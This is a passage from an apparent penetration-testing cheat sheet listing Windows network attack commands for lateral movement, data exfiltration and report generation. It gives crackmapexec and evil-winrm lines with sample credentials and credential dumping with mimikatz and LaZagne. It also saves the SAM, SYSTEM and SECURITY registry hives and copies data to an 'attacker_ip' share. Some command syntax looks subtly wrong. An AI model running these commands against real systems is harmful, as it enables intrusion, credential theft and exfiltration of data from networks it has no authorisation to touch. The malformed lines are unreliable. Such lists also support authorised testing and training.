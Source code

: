     Get-WmiObject -Class Win32_Service | Where-Object {$_.StartMode -eq "Auto" -and $_.StartName -like "*LocalSystem*"} | Format-Table Name, StartName, PathName
    Get-ScheduledTask | Where-Object {$_.settings.runlevel -eq "HighestAvailable"} | Format-Table TaskName, Author

## 6.2 Lateral Movement
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M mimikatz
    evil-winrm -i 192.168.1.10 -u admin -p Password123
    ------
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M psexec -o psexec_success.txt
    crackmapexec rdp 192.168.1.0/24 -u user -p pass -o rdp_success.txt
    evil-winrm -i 192.168.1.10 -u admin -p Password123 -e "powershell -c 'Get-Process'"
    ssh -o StrictHostKeyChecking=no user@192.168.1.15 "whoami"
    ------
    crackmapexec smb 192.168.1.0/24 -u user -p pass -M wmiexec -o wmiexec_success.txt -x "whoami"
    crackmapexec ldap 192.168.1.0/24 -u user -p pass -o ldap_success.txt --pass-pol
    evil-winrm -i 192.168.1.10 -u admin -p Password123 -e "powershell -c 'Invoke-Command -ComputerName remotehost -ScriptBlock { Get-Process }'"
    ssh -o StrictHostKeyChecking=no -i id_rsa user@192.168.1.15 "ls -l"

## 6.3 Data Exfiltration
    mimikatz.exe "sekurlsa::logonpasswords" "exit"
    LaZagne.exe all -oA
    ------
    mimikatz.exe "sekurlsa::ekeys" "exit" > ekeys.txt
    LaZagne.exe browsers -oN browser_creds.txt
    reg save HKLM\SAM sam.hive
    reg save HKLM\SYSTEM system.hive
    python -m http.server 8080 # Serve files for exfil
    ------
    mimikatz.exe "sekurlsa::tickets /export" "exit" > tickets.kirbi
    LaZagne.exe all -oJ all_creds.json
    reg save HKLM\SECURITY security.hive
    net share \\\\attacker_ip\\share c$\ /grant:Everyone,FULL
    copy c:\important_data \\\\attacker_ip\\share\important_data

# 7. REPORTING & AUTOMATION

## 7.1 Report Generation
    nuclei -l urls.txt -t nuclei-templates/ -me reports/ -s critical,high
    dalfox report -o report.html
    dalfox report -o report.html --format html --input scan.json
    arachni --report-save-path=report.afr --checks=active/* https://target.com
    ------
    nuclei -l urls.txt -t nuclei-templates/ -me reports/ -s critical,high -json -o nuclei_report.json
    dalfox report -o report.md --format markdown --input scan.json
    arachni --report-save-path=report_full.afr --checks=* https://target.com
    ------
    nuclei -l urls.txt -t nuclei-templates/ -me reports/ -s critical,high -json -o nuclei_report_full.json -template-display-mode id
    dalfox report -o report_detailed.html --format html --input scan.json --severity-min critical --export-type markdown
    arachni --report-save-path=report_very_full.afr --checks=* --scope-exclude-pattern "logout|signout" https://target.com
